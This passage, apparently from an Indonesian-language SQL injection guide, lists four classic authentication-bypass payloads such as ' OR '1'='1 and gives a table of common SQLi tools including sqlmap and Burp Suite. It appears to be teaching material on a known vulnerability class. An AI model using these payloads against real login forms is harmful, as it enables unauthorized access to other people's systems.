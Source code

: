 ### Authentication Bypass Payloads

- `' OR '1'='1`
- `' OR 1=1--`
- `' OR 'a'='a'--`
- `' OR 1=1#`

---

## 5. Tools Populer untuk SQL Injection

| Tool               | Deskripsi                                                |
| ------------------ | -------------------------------------------------------- |
| **sqlmap**         | Otomatisasi deteksi & eksploitasi SQLi, sangat powerful. |
| **jSQL Injection** | Tool Java GUI untuk eksploitasi SQLi.                    |
| **Burp Suite**     | Proxy testing dengan scanner SQLi.                       |
| **OWASP ZAP**      | Alternatif open-source Burp Suite, mendeteksi SQLi.      |
